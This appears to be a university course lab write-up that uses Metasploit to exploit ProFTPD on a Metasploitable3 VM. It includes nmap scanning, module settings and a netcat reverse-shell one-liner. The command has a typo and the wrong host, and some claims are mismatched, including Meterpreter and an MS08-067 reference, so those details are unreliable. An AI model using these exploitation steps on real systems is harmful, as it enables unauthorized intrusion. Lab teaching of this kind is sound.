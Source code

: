 # Phase 1 – Setup and Compromise of a Vulnerable Service

This phase focused on preparing the environment and compromising a vulnerable service using both **Metasploit** and a **custom script**. It reflects hands-on penetration testing and offensive security skills, performed in a safe and isolated environment.

---

## ⚠️ Disclaimer
This guide is created **strictly for educational purposes** within the scope of the KFUPM ICS344 course. Attempting to compromise systems without proper authorization is illegal and unethical.

---

## 📋 Objectives

- Set up Metasploitable3 (Victim) and Kali Linux (Attacker)
- Verify connectivity and identify open ports/services
- Exploit a vulnerable service using Metasploit
- Build and execute a **custom exploit script**
- Document all steps and commands used

---

## 🖥️ Victim Environment: Metasploitable3

### Setup Steps

1. **Download and then launch the imported Metasploitable 3 VM**  
   `https://sourceforge.net/projects/metasploitable3-ub1404upgraded/files/`  

2. **Login:**  
   Username: `vagrant`  
   Password: `vagrant`
   

---

## 💻 Attacker Environment: Kali Linux

### Initial Setup & Updates  
`sudo apt update && sudo apt upgrade -y`

---

## 🌐 Ensuring Connectivity Between VMs

### Get victim machine IP:  
Run inside Metasploitable3: `ipconfig`

### Get attacker machine IP:  
Run inside Kali: `ip a`

### Test connectivity:  
`ping 192.168.56.101`   

![image](https://github.com/user-attachments/assets/2277bcbe-8b33-4d3e-b34e-4a36e0c0e326)

---

## 🔍 Port Scanning with Nmap  
`nmap -sV 192.168.56.101`

Sample Output Snippet:

![image](https://github.com/user-attachments/assets/3e1945ac-9c08-4186-b615-5cbc3e4157b1)


---

## 🎯 Selected Service: ftp (port 21)

Due to its history of vulnerabilities and real-world relevance , we selected **ftp** for this attack phase.

---

## 🛠️ Exploitation using Metasploit

### Launch Metasploit Console:  
`sudo msfconsole`

### Search services available for exploitation:
`search proftpd`

![image](https://github.com/user-attachments/assets/ec755932-aafb-48a2-b310-7f6655256c60)


### Load ftp Exploit Module:  
`use exploit/unix/ftp/proftpd_modcopy_exec`

### Check required options for exploitation:  
`show options`

![image](https://github.com/user-attachments/assets/081249f6-fa57-4fc0-9be2-f3dab5b0690e)


### Set required options:  
`set RHOSTS 192.168.56.101`  
`set SITEPATH /var/www/html`   
`set AllowNoCleanup true`

### Check and select an available payload:  
`show payloads`
`set payload cmd/unix/generic`

### Check required options for payload:  
`show payload options`

![image](https://github.com/user-attachments/assets/45ea9953-3f70-4c0b-b52e-459e4520024a)


### Set required payload options:    
`set cmd rm /tmp/f;mkfifo /tmp/f; ca /tmp/f | /bin/sh -i 2>&1 | nc 192.168.56.101 4444 > /tmp/f`

### Start listening from the victim machine:

![image](https://github.com/user-attachments/assets/e3dd1956-ee44-456b-82a1-06a62149ef8c)


### Exploit!  
`run`

### Verify access:

![image](https://github.com/user-attachments/assets/2a63233c-c97f-4522-9169-aec7a06f986b)


✅ If successful, a Meterpreter session is opened, providing full access.

---

## 🧪 Custom Exploitation Script

We wrote a **Python script** to automate the attack for demonstration.

### Connect to the victim's ftp:

![image](https://github.com/user-attachments/assets/57344a02-0df7-470e-85c9-dcaae6ead95c)

### Run the script: 

![image](https://github.com/user-attachments/assets/04aef6fc-55a9-4443-8470-f39915c966a6)


---



## 💡 Challenges Faced

- Issues with Metasploitable3 provisioning on some hardware
- Initial network misconfiguration between VMs
- Failing to open sessions after using the `run` command
---

## 📘 Summary

| Task                        | Status       |
|-----------------------------|--------------|
| Metasploitable3 setup       | ✅ Done      |
| Kali Linux setup            | ✅ Done      |
| Service enumeration (Nmap)  | ✅ Done      |
| Metasploit attack           | ✅ Success   |
| Custom script creation      | ✅ Tested    |
| Screenshots and documentation | ✅ Attached |

---

## 📚 References

- [Metasploit Framework](https://www.metasploit.com/)
- [Rapid7 Guide on Metasploitable3](https://github.com/rapid7/metasploitable3)
- [MS08-067 Vulnerability](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067)
